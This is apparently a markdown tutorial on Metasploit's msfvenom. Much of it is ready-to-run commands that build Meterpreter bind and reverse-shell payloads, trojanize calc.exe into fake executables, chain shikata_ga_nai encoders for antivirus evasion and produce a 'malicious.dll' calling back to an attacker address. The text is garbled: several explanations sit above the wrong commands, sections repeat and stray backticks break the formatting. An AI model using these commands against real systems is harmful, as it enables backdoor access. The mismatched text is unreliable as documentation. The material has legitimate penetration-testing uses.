 To start using msfvenom, first please take a look at the options it supports:
```
./msfvenom -l payloads
```

# How to generate a payload
To see what payloads are available from Framework, you can do:
```
./msfvenom -p windows/meterpreter/bind_tcp -f exe
```

The -p flag also supports "-" as a way to accept a custom payload:
```
./msfvenom --help-formats
```

Syntax example:
```
./msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -f raw
```

To see what formats are supported, you can do the following to find out:
```
./msfvenom -l encoders
```

Typically, this is probably how you will use msfvenom:
```
./msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -i 3 
```

# How to encode a payload
By default, the encoding feature will automatically kick in when you use the -b flag (the badchar flag). In other cases, you must use the -e flag like the following:
```
./msfvenom -p windows/meterpreter/bind_tcp -b '\x00' -f raw
```

To find out what encoders you can use, you can use the -l flag:
```
./msfvenom -p windows/meterpreter/bind_tcp -x calc.exe -f exe > new.exe 
```

You can also encode the payload multiple times using the -i flag. Sometimes more iterations may help avoiding antivirus, but know that encoding isn't really meant to be used a real AV evasion solution:
```
./msfvenom -p windows/x64/meterpreter/bind_tcp -x /tmp/templates/64_calc.exe -f exe-only > /tmp/fake_64_calc.exe
```

# How to avoid bad characters
The -b flag is meant to be used to avoid certain characters in the payload. When this option is used, msfvenom will automatically find a suitable encoder to encode the payload:
```
./msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.3 LPORT=4444 -f raw -e x86/shikata_ga_nai -i 5 | \
./msfvenom -a x86 --platform windows -e x86/countdown -i 8  -f raw | \
./msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 9 -f exe -o payload.exe
```

`

# How to generate a dll with msfvenom
This command uses `msfvenom` to create a DLL payload that establishes a reverse TCP connection to the specified attacker's IP and port.

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.6 LPORT=4444 -f dll -e x86/shikata_ga_nai -i 5 -o malicious.dll
```

# How to generate a payload

To generate a payload, there are two flags that you must supply (-p and -f):

* **The -p flag: Specifies what payload to generate**

To see what payloads are available from Framework, you can do:

`

`
./msfvenom -l payloads
`

`

* **The -f flag: Specifies the format of the payload**

Syntax example:

`

`
./msfvenom -p windows/meterpreter/bind_tcp -f exe
`

`
./msfvenom --help-formats
`

`
./msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -f raw
`

`
./msfvenom -l encoders
`

`
./msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -i 3 
`

`
./msfvenom -p windows/meterpreter/bind_tcp -b '\x00' -f raw
`

`
./msfvenom -p windows/meterpreter/bind_tcp -x calc.exe -f exe > new.exe 
`

`
./msfvenom -p windows/x64/meterpreter/bind_tcp -x /tmp/templates/64_calc.exe -f exe-only > /tmp/fake_64_calc.exe
`

`
./msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.3 LPORT=4444 -f raw -e x86/shikata_ga_nai -i 5 | \
./msfvenom -a x86 --platform windows -e x86/countdown -i 8  -f raw | \
./msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 9 -f exe -o payload.exe
`



